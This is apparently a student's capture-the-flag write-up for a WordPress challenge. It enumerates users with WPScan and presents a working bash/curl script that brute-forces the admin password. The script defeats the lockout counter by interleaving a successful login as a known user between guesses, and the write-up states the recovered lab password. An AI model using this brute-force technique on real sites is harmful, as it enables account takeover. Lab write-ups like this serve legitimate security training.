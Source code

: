 # CyberCTF_Assignment_3

### 7. Challenge: WordPress Website (Hard)

* The challenge requests to find the user names and passwords of the provided Website.
* With the tool “WPSscan” we scan the Website and get the associated users:
	* “admin”
	* “think”

![R3_C7_1](https://user-images.githubusercontent.com/124681007/217726362-db19feda-8185-4aa2-9722-955912b9c9d7.png)

![R3_C7_2](https://user-images.githubusercontent.com/124681007/217726419-6c06d2bb-1ee9-4552-ae97-867e1be98468.png)

* We can get the password hard-coded of the user “think” from the Webite files “123”.
* Now we have a way to get into the Website and in combination with the password list provided, we can automate the password search:

![R3_C7_3](https://user-images.githubusercontent.com/124681007/217726968-cf53b41a-718a-440d-9f8c-e0280a20af3a.png)

* The script has loop with a curl instruction to log on the Website, the localhost IP: **172.17.100.1**

		#!/bin/bash

		list=$1
		x=1
		RESPONSE=""

		#The user we know
		USR1="think"
		PASS1="123"
		#The user and password we are looking for on the list provided on $1
		USR2="admin"
		PASS2=""

		echo -e "\n" "Checking the password of the user "$USR2"..."

		while read -r line; do
			#Reading the file and assign it as a password on the variable PASS2
			PASS2=$line
				
			#The first attempt is with the user and password we know for a successful login that will reset the failed attempt counter
			RESPONSE=$(curl -i -s -k -X $'POST' \
			-H $'Host: localhost' -H $'Content-Length: 107' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Chromium\";v=\"109\", \"Not_A Brand\";v=\"99\"' -H $'sec-ch-ua-mobile: ?0' -H $'sec-ch-ua-platform: \"Windows\"' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://localhost' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost/cybersec/wp-login.php' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
				-b $'wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_ea3fd3d8b682fd160e70b2367abe99d8=think%7C1675444531%7CCWzWEGe9zeeApZ14ScLTgHtDjbIYvWu9KdidfzuXFOb%7C7f865bb96396cabc7c47a98ac5f55cefd5140a50224b0112e82fd3a1b5b8e287; wp-settings-time-2=1675271747' \
				--data-binary $'log='$USR1'&pwd='$PASS1'&wp-submit=Log+In&redirect_to=http%3A%2F%2Flocalhost%2Fcybersec%2Fwp-admin%2F&testcookie=1' \
				$'http://172.17.100.1/cybersec/wp-login.php' | grep -o "HTTP/1.1 302 Found")
	
			#This second attempt will try to login with the passwords provided for the second user
			RESPONSE=$(curl -i -s -k -X $'POST' \
			-H $'Host: localhost' -H $'Content-Length: 107' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Chromium\";v=\"109\", \"Not_A Brand\";v=\"99\"' -H $'sec-ch-ua-mobile: ?0' -H $'sec-ch-ua-platform: \"Windows\"' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://localhost' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost/cybersec/wp-login.php' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
				-b $'wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_ea3fd3d8b682fd160e70b2367abe99d8=think%7C1675444531%7CCWzWEGe9zeeApZ14ScLTgHtDjbIYvWu9KdidfzuXFOb%7C7f865bb96396cabc7c47a98ac5f55cefd5140a50224b0112e82fd3a1b5b8e287; wp-settings-time-2=1675271747' \
				--data-binary $'log='$USR2'&pwd='$PASS2'&wp-submit=Log+In&redirect_to=http%3A%2F%2Flocalhost%2Fcybersec%2Fwp-admin%2F&testcookie=1' \
				$'http://172.17.100.1/cybersec/wp-login.php' | grep -o "HTTP/1.1 302 Found")

			if [[ $RESPONSE == "HTTP/1.1 302 Found" ]]; then
				break
			fi
			x=$((x+1))
		done < <(grep "" $list)

		echo -e "\n     Response of successful login: "$RESPONSE
		echo -e "\n          Password found in line: = $x"
		echo "          The password is: = $PASS2"

* To void the security of the Website, we make a cycle with a successful login and another attempt with the password list until it gets a match.

> The password of the **“admin”** user is: **“#1mama”**
